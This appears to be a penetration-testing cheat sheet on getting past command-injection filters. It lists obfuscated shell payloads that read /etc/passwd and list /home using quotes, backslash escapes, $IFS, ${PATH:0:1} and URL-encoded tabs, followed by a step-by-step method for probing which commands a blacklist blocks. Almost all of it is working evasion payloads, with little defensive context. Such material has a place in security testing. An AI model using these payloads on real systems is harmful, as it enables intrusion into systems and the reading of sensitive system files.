 
## Advanced Obfuscation Examples

### File Reading Techniques

**Obfuscating `cat /etc/passwd`:**
```bash
# Method 1: Quotes + Environment Variables
c'a't$IFS${PATH:0:1}e't'c${PATH:0:1}p'a'sswd

# Method 2: Backslash Escaping  
c\a\t$IFS${PATH:0:1}e\tc${PATH:0:1}pa\sswd

# Method 3: Mixed Techniques
c'a'\t$IFS${PATH:0:1}et'c'${PATH:0:1}pas'sw'd
```

### Directory Listing Techniques

**Obfuscating `ls -la /home`:**
```bash
# Method 1: Quote Obfuscation
l's'$IFS-l'a'$IFS${PATH:0:1}h'o'me

# Method 2: Tab Replacement + Quotes
l's'%09-l'a'%09${PATH:0:1}h'o'me
```

---

## Detection & Testing Methodology

### 1. Identify Blacklisted Commands

**Test Common Commands:**
```bash
# Test each command individually
whoami    # Often blacklisted
id        # Often blacklisted  
cat       # Often blacklisted
ls        # Often blacklisted
pwd       # Sometimes blacklisted
echo      # Rarely blacklisted
```

### 2. Test Obfuscation Methods

**Systematic Testing:**
```bash
# Step 1: Single quote method
w'h'o'am'i

# Step 2: Double quote method  
w"h"o"am"i

# Step 3: Backslash method (Linux)
w\ho\am\i

# Step 4: Mixed methods
w'h'o\am'i'
```
